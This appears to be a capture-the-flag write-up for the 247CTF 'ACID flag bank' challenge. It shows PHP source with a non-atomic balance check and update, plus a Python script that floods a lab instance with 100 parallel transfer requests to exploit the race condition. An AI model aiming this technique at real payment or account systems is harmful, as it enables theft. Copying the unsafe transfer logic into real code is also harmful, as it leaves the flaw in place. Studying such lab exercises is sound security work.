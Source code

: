 # Discussion

You can purchase a flag directly from the ACID flag bank, however there aren't enough funds in the entire bank to complete that transaction! Can you identify any vulnerabilities within the ACID flag bank which enable you to increase the total available funds?

## Geting started

The problem will be solved by race conditions method.

## Source code

```php
 $db = new challDB($flag);
if (isset($_GET['dump'])) {
    $db->dumpUsers();
} elseif (isset($_GET['reset'])) {
    echo $db->resetFunds();
} elseif (isset($_GET['flag'], $_GET['from'])) {
    $from = $db->clean($_GET['from']);
    echo $db->buyFlag($from);
} elseif (isset($_GET['to'],$_GET['from'],$_GET['amount'])) {
    $to = $db->clean($_GET['to']);
    $from = $db->clean($_GET['from']);
    $amount = $db->clean($_GET['amount']);
    if ($to !== $from && $amount > 0 && $amount <= 247 && $db->validUser($to) && $db->validUser($from) && $db->getFunds($from) >= $amount) {
        $db->updateFunds($from, $db->getFunds($from) - $amount);
        $db->updateFunds($to, $db->getFunds($to) + $amount);
        echo "Funds transferred!";
    } else {
        echo "Invalid transfer request!";
```

## What does it mean??

When payload is 'dump' -> Show dumpUsers
                'flag' & 'from' -> Buy a Flag
                'to' & 'from' & 'amount' -> Tranfer amount from 'user1' to 'user2'

 With dump, we have the following information:

 ![1](https://user-images.githubusercontent.com/104124377/165557052-6b71b978-ad6a-47f4-a923-4fba79a41772.png)

 To transfer with race conditions method, I wrote the following program:

 ```python
 from multiprocessing.pool import Pool
import requests

url = "https://61f1fb1e101a1233.247ctf.com/"

payload = {"to": 2, "from": 1, "amount": 50}


def send_requests(url, payload):
    r = requests.get(url, params=payload)
    print(r.status_code)


with Pool() as pool:
    pool.starmap(send_requests, [(url, payload) for _ in range(100)])
 ```

## After i run the python program, i have done race conditions

 ![2](https://user-images.githubusercontent.com/104124377/165557175-168a3ffa-66c6-4bd8-adb9-f1641196533f.png)

## Last step

![3](https://user-images.githubusercontent.com/104124377/165557220-5c4e0288-02a3-4f76-86a2-25a55c04fdd6.png)

I got the flag!

That's all. Thanks for reading.
